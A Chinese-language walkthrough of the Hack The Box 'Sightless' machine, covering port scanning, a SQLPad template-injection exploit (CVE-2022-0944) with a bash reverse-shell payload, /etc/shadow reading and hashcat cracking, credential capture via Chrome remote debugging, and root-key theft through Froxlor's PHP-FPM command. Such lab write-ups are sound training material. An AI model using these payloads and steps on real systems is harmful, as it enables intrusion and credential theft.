# Enumeration

## Add hosts

尝试访问10.10.11.32，发现解析后域名.



编辑/etc/hosts文件,确保系统能够将域名 sightless.htb 解析为正确的 IP 地址 10.10.11.32

```
10.10.11.32 sightless.htb
```

## Nmap

```
┌──(root㉿kali)-[/home/tom]
└─# nmap --min-rate 10000 -p- -Pn  10.10.11.32
...
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
...
```

查看结果，发现打开了 3 个端口。

# Web - 80



尝试寻找其他业务接口。



单击“现在开始”，重定向到` http://sqlpad.sightless.htb/`，将其添加到我们的 /etc/hosts 并访问它



## Search  vulnerabilities

我们要做的第一件事是查找 SQLPad 的版本以查找已知漏洞。单击右上角的 3 个点，然后单击 About（关于），我们会立即获得版本。



## CVE-2022-0944

```
https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
```

本地进行监听：



SQLPAD上执行如下操作:单击 Connections 和 Add Connection.

```
{{ process.mainModule.require('child_process').exec('(/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.12/4444 0>&1" &)') }}
```



成功得到shell.



## Docker Environment

根目录下执行`ls -liah`后，发现存在`.dockerenv`，证明是docker环境.



所以下面我们要想办法逃离docker环境.

```
ls /home
```



```
cat /etc/shadow
```



我们现在有了 michael 和 root 的哈希值，我们可以使用 hashcat 来破解它们。

## Hashcat

```
#hashcat '$6$YiFC5EHwcE/nqUgi$aG3i.wyHFMyabCBcYrYwGwMRIvZOOtSPO1WhpeGv7M.MWk6oHZDgCpcfVWCY.6p7YMGZTZazKs2xTdTgg0K5i1' /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside

root
blindside

#hashcat '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/'   /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse


root
blindside


michael
insaneclownposse
```

使用破解后的密码连接到 michael 帐户并逃离 docker 容器。

```
┌──(root㉿kali)-[/home/tom]
└─# ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Wed Sep 25 03:10:58 2024 from 10.10.14.192
michael@sightless:~$ 
```

我们可以从那里得到第一个flag.



## root 

通过 sudo 权限、SUID、cron没有找到任何有用的东西.

查看开放的端口：

```
ss -ltnp
```



比较引入注意的是8080端口，将8080端口映射到本地。发现是froxlor系统，froxlor是一款web控制面板。

网上查询相关漏洞没有能绕过登录的，测试穷举登录，sql注入、默认用户名密码等都无法绕过。

```
ssh -L 8080:127.0.0.1:8080 michael@sightless.htb -N -f  
```

> ssh: 启动 SSH 客户端。
> 
> -L 8080:127.0.0.1:8080: 指定本地端口转发，将本地的 8080 端口转发到远程主机 sightless.htb 的 127.0.0.1（即远程主机本身）的 8080 端口。
> 
> michael@sightless.htb: 以用户名 michael 连接到远程主机 sightless.htb。
> 
> -N: 不执行远程命令，仅进行端口转发。
> 
> -f: 在后台运行 SSH 会话。
> 
> 这个命令将你的本地 8080 端口与远程主机的 8080 端口建立了安全的连接，以便可以通过访问 http://localhost:8080 来访问远程服务。

看一下 http://127.0.0.1:8080/ 我们得到了一个 Froxlor 登录页面。



再查看进程，发现john用户启用了很多chrome程序，进一步查看命令，发现是chrome的调试模式。

```
ps -aux
ps -aux | grep chrome
```



经过搜索，发现chrome可以进行远程调试，这一步需要将多个端口映射本地。我这里映射了421411、36943、8080端口。根据情况不同，可以多映射几个。

```
ssh michael@10.10.11.32 -L 42141:localhost:42141
```

下面在kali中打开chrome，访问`chrome://inspect/#devices`，在Configure里面设置`127.0.0.1:port    `



在该界面等一会，你会发现下面会不断访问`http://admin.sightless.htb:8080`



点击inspect，会弹出DevTools（这一步要多试几次）

点击保留日志，让它访问几次，过一会我们就能找到Froxlor的用户名密码。    

这里是因为本地在进行调试或者测试，不断循环访问网站，而我们使用远程调试则可以看到访问网站的过程。

```
admin | ForlorfroxAdmin
```



访问`http://127.0.0.1:8080`，使用刚才获取的用户名密码登录，成功进入后台。



我们将root的私钥拷贝到tmp文件夹，进入PHP-FPM versions，修改第一行的php-fpm restart command。

我们为什么不直接反弹shell？因为命令行在保存时会校验，具体检验内容没有测试，但是仿造原命令的三段式可以通过校验。

```
cp /root/.ssh/id_rsa /tmp/id_rsa
```



将PHP-FPM功能打开，进入System下的Settings，将PHP-FPM里面Enable php-fpm打开。



等会发现id_rsa文件被拷贝到tmp，但是我们没有读写权限，再用上面的方法。

修改PHP-FPM versions第一行的php-fpm restart command，过会发现有了读写权限。 

```
chmod 777 /tmp/id_rsa
```



将该文件复制到本地，然后设置权限，使用ssh连接,成功获取root权限。

```
chmod 700 root_idrsa
ssh -I root_idrsa root@10.10.11.32
```

